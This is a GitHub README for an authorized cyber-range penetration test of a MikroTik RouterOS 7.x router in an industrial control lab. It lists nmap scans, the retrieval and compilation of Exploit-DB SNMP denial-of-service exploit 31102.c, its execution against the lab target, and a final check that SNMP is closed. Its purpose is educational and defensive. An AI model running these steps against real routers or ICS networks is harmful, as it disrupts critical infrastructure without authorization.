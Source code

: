 # 🔒 MikroTik RouterOS ICS Security Penetration Test

This repository documents a controlled cyber range exercise focused on penetration testing a **MikroTik RouterOS 7.x** device in an Industrial Control Systems (ICS) environment. The goal: **reconnaissance → exploit (SNMP) → verify remediation (OpSec verification)**.

> **Important:** This material documents a controlled, authorized exercise. Use only in environments where you have explicit permission to test.

## Overview

This guide captures commands and notes from an internal exercise where a MikroTik RouterOS device was identified and tested for an SNMP-related denial-of-service exploit. The exercise demonstrates typical penetration test phases: reconnaissance, enumeration, exploit preparation, execution, and verification of mitigation.

---

## Roles & IP Addresses

| Role             | IP Address    | Notes                                |
| ---------------- | ------------- | ------------------------------------ |
| Attacker Machine | `10.13.20.91` | Source IP for launching the exploit. |
| Target Router    | `10.13.20.16` | MikroTik RouterOS 7.x (identified).  |

---

## Phase 1 — Reconnaissance and Network Mapping

Initial steps to confirm attacker network configuration and discover hosts in the `10.13.20.0/24` subnet.

### 1.1 Check Attacker Network Configuration

**Commands and purpose:**

| Command        | Purpose                                      |
| -------------- | -------------------------------------------- |
| `ifconfig`     | Display network interfaces and IP addresses. |
| `ip addr show` | Display IP address and interface details.    |

```bash
# Example: list network interfaces (Linux)
ifconfig

# or
ip addr show
```

---

### 1.2 Host Discovery Scan

Use Nmap to perform a ping scan of the subnet.

```bash
# Ping sweep to find live hosts
nmap -sn 10.13.20.0/24
```

---

## Phase 2 — Target Enumeration & Vulnerability Identification

After identifying `10.13.20.16` as a host, a deeper scan was run to enumerate services and the OS.

### 2.1 Aggressive Port and OS/Service Scan

```bash
# Aggressive scan for services, OS detection, and version detection (target: 10.13.20.16)
nmap -p 22,5000,8080,502,1502,2502 -A -sV -O -Pn -T4 10.13.20.16
```

> Result: Device fingerprinted as **MikroTik RouterOS 7.x**.

---

### 2.2 Search for Exploits

Search public exploit databases (Exploit-DB / searchsploit) for MikroTik RouterOS 7 vulnerabilities.

```bash
# Search exploit-db for MikroTik RouterOS 7
searchsploit mikrotik routeros 7
```

> Example finding: SNMP SET Denial of Service exploit among other entries.

---

### 2.3 Download Exploit Source Code

Copy the exploit source (example: `31102.c`) locally for review/compilation.

```bash
# Mirror (copy) exploit to local directory
searchsploit -m exploits/hardware/dos/31102.c
```

---

## Phase 3 — Exploit Preparation & Delivery

Compile the exploit and make it available for the target to download (simulating a delivery step in the controlled lab).

### 3.1 Review and Compile the Exploit

**Commands and purposes:**

| Command                          | Purpose                                         |
| -------------------------------- | ----------------------------------------------- |
| `nano 31102.c`                   | Open and review the C source file.              |
| `gcc 31102.c -o exploit_binary1` | Compile the C source into an executable binary. |

```bash
# Open exploit source
nano 31102.c

# Compile
gcc 31102.c -o exploit_binary1
```

---

### 3.2 Host and Transfer the Exploit

Host the compiled binary with a temporary HTTP server for download.

```bash
# Start a simple Python HTTP server on port 8080
python3 -m http.server 8080
```

> Server logs indicated `10.13.20.16` successfully downloaded the file (exercise log).

---

## Phase 4 — Exploitation & Post-Exploitation

Execute the compiled exploit against the target's SNMP service and demonstrate a basic post-exploitation transfer step (OpSec example).

### 4.1 Execute Exploit Binary

Attempt to run the exploit locally, specifying source/destination and SNMP community string.

```bash
# Initial (non-root) attempt (failed due to privileges)
./exploit_binary1 -s 10.13.20.91 -d 10.13.20.16 -c public

# Run as root (succeeds in sending packets; indicates SNMP daemon must be down on target)
sudo ./exploit_binary1 -s 10.13.20.91 -d 10.13.20.16 -c public
```

**Notes:**

* First run failed because of insufficient privileges.
* Running with `sudo` successfully sent packets — exercise logs indicate SNMPd was not running (or had been disabled) at the time of the run.

---

### 4.2 Secure File Copy (OpSec Example)

Example of copying a file (`app.py`) to another host as part of simulation post-exploitation workflow.

```bash
# Secure copy to a separate host (example)
scp app.py student@10.14.7.18:docker/substation-envsim/
```

---

## Phase 5 — Operational Security (OpSec) Verification

Confirm the vulnerable vector (SNMP on UDP/161) is no longer available after mitigation.

### 5.1 Verify SNMP Service State

Scan UDP port 161 on the target to confirm it is closed.

```bash
# Scan UDP port 161 (SNMP) on the target to verify mitigation
sudo nmap -sU -p 161 10.13.20.16
```

**Verification Result:**
`161/udp closed  snmp` — shows the SNMP port is closed; mitigation successful in disabling the primary exploit vector.

---

## Notes & References

* Target and exploit details are recorded from a controlled, authorized cyber range exercise.
* Always obtain explicit, written authorization before performing any penetration testing or active scanning on networks or devices you do not own.
* This README preserves the original commands and sequence used during the exercise for repeatability and documentation.

